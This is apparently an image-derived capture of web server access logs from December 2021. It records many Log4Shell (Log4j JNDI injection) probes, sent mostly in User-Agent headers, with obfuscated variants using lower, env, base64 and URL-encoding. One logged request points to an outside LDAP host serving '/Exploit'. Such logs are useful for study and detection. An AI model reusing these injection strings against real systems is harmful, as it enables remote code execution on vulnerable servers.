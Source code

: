```
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:17:25 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:19:09 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap:"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:19:11 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap:"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:21:16 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:21:17 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:23:17 +0000] "GET /log4j.html HTTP/2.0" 404 146 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:24:49 +0000] "HEAD / HTTP/1.1" 200 0 "-" "${jndi:ldap"
|  112.74.52.90 - - [13/Dec/2021:05:29:12 +0000] "GET /$%7Bjndi:ldap://45.xxx.xxx.xxx:1389/Exploit%7D HTTP/1.1" 404 146 "-" "Mozilla/5.0 zgrab/0.x"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:29:18 +0000] "PUT / HTTP/2.0" 405 150 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:37:16 +0000] "GET /log4j.html HTTP/2.0" 404 146 "-" "jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:40:57 +0000] "WHATEVER / HTTP/2.0" 405 150 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:40:59 +0000] "WHATEVER / HTTP/2.0" 405 150 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:44:51 +0000] "WHATEVER / HTTP/2.0" 405 150 "-" "${jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:48:01 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "jndi:ldap"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:18:30 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "(${${::-j}$"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:18:32 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "(${${::-j}$"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:18:51 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "(${${::-j}$"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:19:34 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "${${lower:jndi}"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:20:38 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "${${lower:j}${lower:n}${lower:d}i:${lower:rmi}"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:26:16 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "(${${::-n}$"
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:12:30:58 +0000] "GET /log4j.html HTTP/1.1" 404 146 "-" "${lower:rmi}"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:09:30:38 +0000] "GET / HTTP/2.0" 200 6592 "-" "${base64:JHtqbmRp"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:09:30:45 +0000] "POST / HTTP/2.0" 200 6592 "-" "${base64:JHtqbmRp"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:02:15 +0000] "GET / HTTP/2.0" 200 6592 "-" "${base64:JHtqbmRp"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:04:32 +0000] "GET / HTTP/2.0" 200 6592 "-" "/$%7bjndi:"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:04:49 +0000] "GET / HTTP/2.0" 200 6592 "-" "%24%7bjndi:"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:05:05 +0000] "GET / HTTP/2.0" 200 6592 "-" "$%7Bjndi:"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:05:17 +0000] "GET / HTTP/2.0" 200 6592 "-" "%2F%252524%25257Bjndi%3A"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:05:33 +0000] "GET / HTTP/2.0" 200 6592 "-" "%2F%252524%25257Bjndi%3A"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:05:55 +0000] "GET / HTTP/2.0" 200 6592 "-" "/Basic/Command/Base64/"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:24:09 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://example.com/a}"
|  xxx.xxx.xxx.xxx - - [14/Dec/2021:10:28:47 +0000] "GET / HTTP/2.0" 200 6592 "-" "${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}//example.com}"
`-
```
